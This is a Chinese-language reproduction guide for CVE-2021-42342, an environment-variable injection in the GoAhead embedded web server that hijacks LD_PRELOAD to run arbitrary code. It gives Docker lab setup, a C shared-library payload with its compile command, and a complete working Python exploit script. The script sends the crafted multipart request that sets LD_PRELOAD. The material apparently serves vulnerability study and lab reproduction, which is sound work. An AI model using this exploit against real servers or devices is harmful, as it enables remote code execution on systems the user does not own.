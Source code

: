 # GoAhead Server 环境变量注入 CVE-2021-42342

## 漏洞描述

GoAhead是一个开源(商业许可)、简单、轻巧、功能强大、可以在多个平台运行的Web Server，多用于嵌入式系统、智能设备。其支持运行ASP、Javascript和标准的CGI程序。

这个漏洞是[CVE-2017-17562](https://github.com/vulhub/vulhub/tree/master/goahead/CVE-2017-17562)漏洞补丁的绕过，攻击者可以利用该补丁没有考虑到的multipart表单控制目标服务器的环境变量，进而劫持`LD_PRELOAD`来执行任意代码。

参考链接：

- https://github.com/vulhub/vulhub/tree/master/goahead/CVE-2017-17562
- https://ahmed-belkahla.me/post/2-methods-rce-0-day-in-goahead-webserver-pbctf-2021/
- https://mp.weixin.qq.com/s/AS9DHeHtgqrgjTb2gzLJZg

## 环境搭建

Vulhub执行如下命令启动GoAhead 5.1.4：

```
docker-compose up -d
```

启动完成后，访问`http://your-ip:8080/`即可看到欢迎页面。访问`http://your-ip:8080/cgi-bin/index`即可查看到Hello页面，即为CGI执行的结果。

## 漏洞复现

首先需要编译一个动态链接库，而且需要和目标架构相同。所以在实战中，如果对方是一个智能设备，你可能需要交叉编译。因为Vulhub运行在`Linux x86_64`的机器中，所以我们直接用Linux PC编译即可。动态链接库源码：

```c
#include <unistd.h>

static void before_main(void) __attribute__((constructor));

static void before_main(void)
{
    write(1, "Hello: World\r\n\r\n", 16);
    write(1, "Hacked\n", 7);
}
```

这样，`before_main`函数将在程序执行前被调用。编译以上代码：

```
gcc -s -shared -fPIC ./payload.c -o payload.so
```

然后，我们使用[这个脚本](https://github.com/vulhub/vulhub/blob/master/goahead/CVE-2021-42342/poc.py)来发送恶意数据包，复现漏洞：

```
python poc.py http://target-ip:8080/cgi-bin/index /path/to/payload.so
```

可见，我们在动态链接库中编写的劫持代码已经被成功执行：

![image-20220706140106851](./images/202207061401980.png)

## 漏洞POC

```python
import sys
import socket
import ssl
import random
from urllib.parse import urlparse, ParseResult

PAYLOAD_MAX_LENGTH = 16384 - 200


def exploit(client, parts: ParseResult, payload: bytes):
    path = '/' if not parts.path else parts.path
    boundary = '----%s' % str(random.randint(1000000000000, 9999999999999))
    padding = 'a' * 2000
    content_length = min(len(payload) + 500, PAYLOAD_MAX_LENGTH)
    data = fr'''POST {path} HTTP/1.1
Host: {parts.hostname}
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary={boundary}
Content-Length: {content_length}

--{boundary}
Content-Disposition: form-data; name="LD_PRELOAD";

/proc/self/fd/7
--{boundary}
Content-Disposition: form-data; name="data"; filename="1.txt"
Content-Type: text/plain

#payload#{padding}
--{boundary}--
'''.replace('\n', '\r\n')
    data = data.encode().replace(b'#payload#', payload)
    client.send(data)
    resp = client.recv(20480)
    print(resp.decode())


def main():
    target = sys.argv[1]
    payload_filename = sys.argv[2]

    with open(payload_filename, 'rb') as f:
        data = f.read()

    if len(data) > PAYLOAD_MAX_LENGTH:
        raise Exception('payload size must not larger than %d', PAYLOAD_MAX_LENGTH)

    parts = urlparse(target)
    port = parts.port
    if not parts.port:
        if parts.scheme == 'https':
            port = 443
        else:
            port = 80

    context = ssl.create_default_context()
    with socket.create_connection((parts.hostname, port), timeout=8) as client:
        if parts.scheme == 'https':
            with context.wrap_socket(client, server_hostname=parts.hostname) as ssock:
                exploit(ssock, parts, data)

        else:
            exploit(client, parts, data)


if __name__ == '__main__':
    main()
```


